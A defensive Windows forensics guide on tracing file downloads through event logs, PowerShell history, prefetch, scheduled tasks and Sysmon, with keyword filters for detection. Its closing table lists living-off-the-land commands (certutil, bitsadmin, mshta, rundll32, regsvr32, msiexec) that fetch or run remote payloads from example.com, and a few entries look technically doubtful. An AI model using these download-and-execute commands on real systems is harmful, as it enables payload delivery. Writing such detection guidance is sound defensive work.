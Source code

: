 ## 🛡️ **How to Check Command History for File Downloads on Windows**

Attackers often use native Windows binaries to download additional files. Below are the key methods to investigate **command history** effectively:

---

## 📂 **1. Check Windows Event Logs**

Windows records command-line activity in **Event Logs** if proper auditing is enabled.

### **Enable Command-Line Auditing (If Not Already Enabled)**
- Open **Group Policy Editor (`gpedit.msc`)**  
- Navigate to:  
   ```
   Computer Configuration → Administrative Templates → Windows Components → Windows PowerShell
   ```
- Enable: **"Turn on Module Logging"** and **"Turn on PowerShell Script Block Logging"**

### **Event Viewer Logs to Check:**
1. **PowerShell Logs:**  
   - **Path:** `Applications and Services Logs → Microsoft → Windows → PowerShell/Operational`
   - **Event ID:** `4104` (Command/script execution)

2. **Process Creation Logs:**  
   - **Path:** `Windows Logs → Security`
   - **Event ID:** `4688` (A new process has been created)

3. **Scheduled Tasks/Services:**  
   - **Path:** `Windows Logs → System`
   - **Event ID:** `4697` (Service installed)

### **Filter Command History in Event Viewer:**
Search for relevant binaries:
- **Keywords:** `certutil`, `bitsadmin`, `powershell`, `curl`, `wget`, `mshta`, `rundll32`, `regsvr32`, etc.

Example PowerShell Filter:
```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4688} | Where-Object {$_.Message -match "certutil|bitsadmin|powershell|wget|curl|mshta|rundll32|regsvr32"}
```

---

## 📂 **2. PowerShell Command History**

PowerShell maintains a history of executed commands in the **Console History File**.

- **Location:**  
   ```
   %USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
   ```

- **Command to Check History File:**
```powershell
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt | Select-String -Pattern "http|certutil|bitsadmin|wget|curl|mshta|rundll32|regsvr32"
```

---

## 📂 **3. Check Prefetch Files**

Windows **Prefetch** keeps a record of recently executed binaries, including executables like `certutil.exe`, `powershell.exe`, etc.

- **Location:**  
   ```
   C:\Windows\Prefetch
   ```

- Use **strings** or tools like **WinPrefetchView** to analyze files.

- **Example Command:**  
```cmd
dir C:\Windows\Prefetch | findstr certutil
```

- **Analyze Prefetch Files:**  
Look for binaries like `CERTUTIL.EXE-xxxx.pf`, `BITSADMIN.EXE-xxxx.pf`, etc.

---

## 📂 **4. Check Scheduled Tasks**

Attackers often set scheduled tasks to execute download commands.

- **Command to List Scheduled Tasks:**
```cmd
schtasks /query /fo LIST /v | findstr /i "http https certutil bitsadmin powershell wget curl"
```

- Inspect suspicious tasks in **Task Scheduler (`taskschd.msc`)**.

---

## 📂 **5. Check Registry for Recent Commands**

Windows often logs recent commands in the **Registry**.

- **PowerShell Command:**
```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU"
```

- Look for URLs or binary references like `certutil`, `wget`, `bitsadmin`, etc.

---

## 📂 **6. Check Shellbags and Jump Lists**

- **Jump Lists:** Track files or applications opened via Windows Explorer.
   - **Location:**  
     ```
     %APPDATA%\Microsoft\Windows\Recent
     ```
- Use tools like **ShellBagsExplorer** or **JumpList Explorer**.

---

## 📂 **7. Use Sysmon (If Installed)**

**Sysmon** is part of **Sysinternals Suite** and logs detailed process creation and command-line arguments.

- **Path in Event Viewer:**  
   ```
   Applications and Services Logs → Microsoft → Windows → Sysmon/Operational
   ```
- **Relevant Event IDs:**
   - `1`: Process creation
   - `3`: Network connection

- **Filter for Commands:**
```powershell
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} | Where-Object {$_.Message -match "certutil|bitsadmin|powershell|wget|curl"}
```

---

## 📂 **8. Search User's Temp and Download Folders**

Check common locations for suspicious downloads:

- **Temp Folder:**  
   ```
   C:\Users\<username>\AppData\Local\Temp
   ```
- **Downloads Folder:**  
   ```
   C:\Users\<username>\Downloads
   ```
- Search for suspicious `.exe`, `.bat`, `.ps1`, or `.hta` files.

- Example Command:
```cmd
dir C:\Users\<username>\Downloads | findstr .exe
```

---

## 🚀 **Quick Summary Table**

<table border="1" cellpadding="5" cellspacing="0">
  <thead>
    <tr>
      <th>Binary</th>
      <th>Purpose</th>
      <th>Example Command</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>certutil.exe</code></td>
      <td>Certificate Utility</td>
      <td><code>certutil.exe -urlcache -split -f http://example.com/file.exe C:\Temp\file.exe</code></td>
    </tr>
    <tr>
      <td><code>bitsadmin.exe</code></td>
      <td>BITS Transfer Service</td>
      <td><code>bitsadmin /transfer job /download /priority normal http://example.com/file.exe C:\Temp\file.exe</code></td>
    </tr>
    <tr>
      <td><code>powershell.exe</code></td>
      <td>Scripting Language</td>
      <td><code>Invoke-WebRequest -Uri http://example.com/file.exe -OutFile C:\Temp\file.exe</code></td>
    </tr>
    <tr>
      <td><code>curl.exe</code></td>
      <td>File Transfer Utility</td>
      <td><code>curl -o C:\Temp\file.exe http://example.com/file.exe</code></td>
    </tr>
    <tr>
      <td><code>wget.exe</code></td>
      <td>File Transfer Utility</td>
      <td><code>wget http://example.com/file.exe -O C:\Temp\file.exe</code></td>
    </tr>
    <tr>
      <td><code>mshta.exe</code></td>
      <td>HTA Script Execution</td>
      <td><code>mshta http://example.com/script.hta</code></td>
    </tr>
    <tr>
      <td><code>rundll32.exe</code></td>
      <td>DLL/Script Execution</td>
      <td><code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";GetObject("script:http://example.com/script.sct")</code></td>
    </tr>
    <tr>
      <td><code>esentutl.exe</code></td>
      <td>Database Utility</td>
      <td><code>esentutl.exe /y http://example.com/file.exe /d C:\Temp\file.exe</code></td>
    </tr>
    <tr>
      <td><code>hh.exe</code></td>
      <td>Help File Execution</td>
      <td><code>hh.exe http://example.com/help.chm</code></td>
    </tr>
    <tr>
      <td><code>msiexec.exe</code></td>
      <td>MSI Installer Utility</td>
      <td><code>msiexec /i http://example.com/installer.msi</code></td>
    </tr>
    <tr>
      <td><code>regsvr32.exe</code></td>
      <td>DLL/Script Execution</td>
      <td><code>regsvr32 /s /n /u /i:http://example.com/script.sct scrobj.dll</code></td>
    </tr>
    <tr>
      <td><code>scriptrunner.exe</code></td>
      <td>Script Runner Tool</td>
      <td><code>scriptrunner.exe /script http://example.com/script.bat</code></td>
    </tr>
    <tr>
      <td><code>expand.exe</code></td>
      <td>File Extraction</td>
      <td><code>expand http://example.com/file.exe C:\Temp\file.exe</code></td>
    </tr>
  </tbody>
</table>

Implement proper **monitoring and alerting**, and let me know if you need help with specific findings! 🚀🛡️
